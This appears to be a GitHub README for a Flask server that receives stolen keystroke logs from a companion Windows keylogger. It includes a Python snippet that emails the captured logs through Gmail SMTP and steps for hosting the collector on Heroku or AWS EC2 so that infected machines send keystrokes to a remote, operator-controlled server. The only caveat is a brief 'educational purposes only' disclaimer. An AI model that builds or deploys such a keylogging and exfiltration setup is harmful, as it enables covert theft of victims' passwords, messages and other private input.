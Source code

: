 Keylogger Log Server
Overview
This Flask-based log server receives and stores logs from the Windows-based keylogger (keylogger.c). It supports local operation (e.g., http://127.0.0.1:5000 or http://192.168.1.3:5000), SMTP email transmission, or deployment on a remote server for receiving logs.
Features

Receives keylogger logs via HTTP POST or SMTP email.
Stores logs in a local file (e.g., server_logs.txt) with timestamps.
Lightweight and customizable for local or remote deployment.

Requirements

OS: Any OS supporting Python (tested on Windows 11)
Python: Version 3.6+
Dependencies: Flask (pip install flask), smtplib (standard library for SMTP)
Network: Local network access or internet for remote/SMTP setup

Setup Instructions

Install Python 3.6+ from python.org.

Install Flask:
pip install flask


Clone or download the log_server.py file.

Configure the keylogger to send logs to the server’s URL (e.g., http://127.0.0.1:5000/log) or email address for SMTP.


Customization
Local Server

Run the server locally (default):
python log_server.py


Access at http://127.0.0.1:5000 or a local network IP (e.g., 192.168.1.3:5000).

Update the keylogger’s URL to match the server’s IP/port.


SMTP Email Transmission

Modify log_server.py to use smtplib for email:
import smtplib
from email.mime.text import MIMEText

def send_email(log_data, recipient_email):
    msg = MIMEText(log_data)
    msg['Subject'] = 'Keylogger Log'
    msg['From'] = 'your_email@example.com'
    msg['To'] = recipient_email
    with smtplib.SMTP('smtp.gmail.com', 587) as server:
        server.starttls()
        server.login('your_email@example.com', 'your_app_password')
        server.send_message(msg)


Generate an app-specific password for your email provider (e.g., Gmail).

Update the keylogger to call send_email with logs and your recipient email.


Remote Server Deployment

Deploy the Flask server to a cloud platform (e.g., Heroku, AWS EC2):
Heroku:
Create a Heroku app: heroku create your-app-name.

Push the code: git push heroku main.

Set the port dynamically in log_server.py:
import os
port = int(os.environ.get('PORT', 5000))
app.run(host='0.0.0.0', port=port)






Update the keylogger’s URL to the remote server’s public IP or domain (e.g., http://your-ec2-public-ip:5000/log).

Usage

Start the server (local or remote):
python log_server.py


The server receives logs at the /log endpoint (HTTP POST) or via email (SMTP).

Logs are saved to server_logs.txt or emailed with timestamps.

Stop the server with Ctrl+C.


Considerations

Do not store or transmit sensitive data without encryption.

Challenges Overcome

Resolved networking issues for stable HTTP/SMTP log transmission.
Configured Flask server for reliable POST request handling.
Managed log storage to prevent data loss.
Overcame SMTP authentication and remote deployment hurdles.

License
This project is for educational purposes only and is not licensed for commercial or unethical use.
